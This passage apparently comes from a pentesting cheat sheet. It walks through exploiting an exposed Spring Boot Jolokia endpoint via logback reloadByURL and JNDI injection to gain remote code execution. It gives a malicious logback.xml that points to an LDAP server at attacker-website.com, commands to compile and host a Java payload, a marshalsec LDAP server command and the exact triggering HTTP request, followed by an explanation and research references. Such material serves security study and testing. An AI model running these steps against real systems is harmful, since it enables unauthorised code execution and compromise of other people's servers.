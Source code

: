 In this case, the `env-entry-name` attribute will be passed to the `DirContext.lookup()` method. Providing an arbitrary name to the `lookup` method can lead to remote code execution via remote class loading.

You can gain code execution with the following steps:

1. Get the `/jolokia/list` to check if `ch.qos.logback.classic.jmx.JMXConfigurator` class and `reloadByURL` method are available
2. Host the logback configuration at `http://attacker-website.com/logback.xml`:

    ```xml
    <configuration>
        <insertFromJNDI env-entry-name="ldap://attacker-website.com:1389/JNDIObject" as="appName" />
    </configuration>
    ```
3. Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)
4. Compile in such a way that it is compatible with earlier JDK versions:

    ```bash
    javac -source 1.5 -target 1.5 JNDIObject.java
    ```

5. Host the compiled `JNDIObject.class` at `http://attacker-website.com/`
6. Set up LDAP server, use [marshalsec](https://github.com/mbechler/marshalsec) to set up the server:

    ```bash
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
    ```

7. Load the log configuration from an external URL with the following request:

    ```
    GET /jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml HTTP/1.1
    ```
    
    If an application successfully requests `logback.xml` and `marshalsec` receives the target request, but an application does not request `JNDIObject.class`, it is likely that an application's JDK version is too high, causing JNDI usage to fail.

It is possible due to the following steps:

1. Direct access to the URL that could cause the vulnerability is equivalent to calling the `ch.qos.logback.classic.jmx.JMXConfigurator` class method via jolokia `reloadByURL`
2. An application requests a XML configuration file from an external URL
3. XML configuration is parsed by `saxParser.parse`, it leads to XXE vulnerability
4. The external JNDI server address is specified using the `insertFormJNDI` tag in the Logback XML configuration file
5. An application requests a malicious JNDI server, it leads to JNDI injection and RCE

References:
- [Spring Boot Vulnerability Exploit Check List: jolokia logback JNDI RCE](https://github.com/LandGrey/SpringBootVulExploit#0x04jolokia-logback-jndi-rce)
- [Spring Boot Actuator (jolokia) XXE/RCE](https://github.com/mpgn/Spring-Boot-Actuator-Exploit)
- [Research: A Journey From JNDI/LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf)
- [Research: Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
